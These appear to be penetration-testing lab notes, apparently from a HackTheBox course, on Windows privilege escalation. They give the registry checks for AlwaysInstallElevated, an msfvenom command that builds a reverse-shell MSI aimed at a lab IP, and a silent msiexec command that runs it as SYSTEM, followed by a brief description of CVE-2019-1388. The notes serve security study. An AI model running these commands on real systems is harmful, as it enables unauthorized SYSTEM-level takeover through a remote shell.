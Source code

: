## 🔺 AlwaysInstallElevated Exploitation

### Policy Configuration
```cmd
# Group Policy locations:
Computer Configuration\Administrative Templates\Windows Components\Windows Installer
User Configuration\Administrative Templates\Windows Components\Windows Installer

# Setting: "Always install with elevated privileges" = Enabled
```

### Registry Enumeration
```cmd
# Check both registry locations:
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

# Both should show:
AlwaysInstallElevated    REG_DWORD    0x1
```

### MSI Payload Generation
```bash
# Generate malicious MSI with msfvenom:
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

# Payload details:
Platform: Windows x86
Payload size: 324 bytes
Final MSI size: 159744 bytes
```

### MSI Execution
```cmd
# Execute MSI with elevated privileges:
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart

# Flags:
/quiet    # Suppress user interface
/qn       # No user interaction
/norestart # Prevent automatic restart

# Result: Reverse shell as NT AUTHORITY\SYSTEM
```

## 🔓 CVE-2019-1388 (Windows Certificate Dialog)

### Vulnerability Details
```cmd
# Affected components:
- Windows Certificate Dialog UAC mechanism
- Certificate with OID 1.3.6.1.4.1.311.2.1.10 (SpcSpAgencyInfo)
- Vulnerable binary: hhupd.exe (old Microsoft-signed)

# Vulnerability: Hyperlink in certificate opens browser as SYSTEM
```
